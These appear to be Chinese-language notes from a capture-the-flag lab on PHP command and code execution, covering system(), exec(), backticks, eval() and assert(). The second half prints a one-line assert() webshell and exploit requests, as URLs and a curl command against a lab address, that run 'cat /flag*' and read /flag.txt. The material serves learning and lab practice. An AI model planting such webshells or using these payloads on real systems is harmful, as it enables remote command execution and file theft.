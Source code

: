 ### 命令执行函数
system()
```
说明：执行外部程序并显示输出资料。
语法：string system(string command, int [return_var]);
返回值: 字符串
```
exec函数
```
说明：执行外部程序。

语法：string exec(string command, string [array], int [return_var]);

返回值: 字符串
```
反撇号`（和~在同一个键）
```
执行系统外部命令,代码如下:echo `dir`;

知识点：在使用这种方法执行系统外部命令时，你要确保shell_exec函数可用，否则是无法使用这种反撇号执行系统外部命令的。
```



#### 代码执行

eval函数中参数是字符，如：
```
eval('echo 1;');
```
assert函数中参数为表达式 （或者为函数），如：
```
assert(phpinfo()) 
```
这样：`assert(eval('echo 1;'));`，无法执行。

如：
```
<?php assert($_GET[1]);?>

http://172.16.2.234:8011/3.php?1=system(%22cat%20/flag.txt%22)
http://172.16.2.234:8011/3.php?1=print_r(file_get_contents(%22/flag.txt%22))
```
<?php assert($_REQUEST[1]);?>
```
curl "http://172.16.2.234:8011/4.php" -d "1=system('cat /flag*')"
de9d4919ce86aeb38a5332c7d1c4d24a
```



